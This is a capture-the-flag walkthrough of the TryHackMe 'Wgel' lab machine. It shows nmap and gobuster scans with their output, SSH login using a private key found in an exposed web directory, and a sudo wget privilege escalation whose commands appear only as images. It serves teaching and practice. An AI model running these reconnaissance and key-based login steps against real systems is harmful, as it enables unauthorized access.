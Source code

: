 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-1.png)
I found a ssh folder which containes a ssh key which i used to login via ssh, annd finally i take advantage of the sudo rights on the wget command.

Nmap scan
```text
nmap -sS -T 4 -p- 10.10.144.149
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 04:55 EDT
Nmap scan report for 10.10.122.219
Host is up (0.068s latency).
Not shown: 65136 closed ports, 397 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The detailed scan
```text
nmap -sV -sC  -T 4 -p22,80 10.10.144.149
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 04:59 EDT
Nmap scan report for 10.10.122.219
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80 is this ubuntu's default page.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-2.png)

The source has this comment with an username which will be useful in the future.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-3.png)

I got stuck, so i wil bruteforce directories.

```text
 gobuster dir -u http://10.10.144.149 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.144.149
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/03 05:30:48 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/sitemap (Status: 301)
```


The sitemap is a basic template, but it may hold other interesting files.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-4.png)


The .ssh folder seems promising.
```text
 gobuster dir -u http://10.10.144.149/sitemap/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.144.149/sitemap/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/03 05:41:55 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.ssh (Status: 301)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
```
  
Here is the rsa key that would be useful when login via ssh.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-5.png)

To login via ssh using a private key, the permissions of the file needs to be set.
```text
chmod 600 id_rsa
```
ssh -i id_rsa jessie@10.10.144.149

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-6.png)

After a bit of searching i found the user flag in the Documents folder.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-7.png)

Let's see what sudo rights has jessie.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-8.png)

This privesc is a bit different from what i am used to, but it was welcomed as i learned something new.First, start a listener on port 80 and redirect any output to a file.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-9.png)

Second use the command below.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-10.png)

Lastly, read the flag.  

#### Referrences
https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/
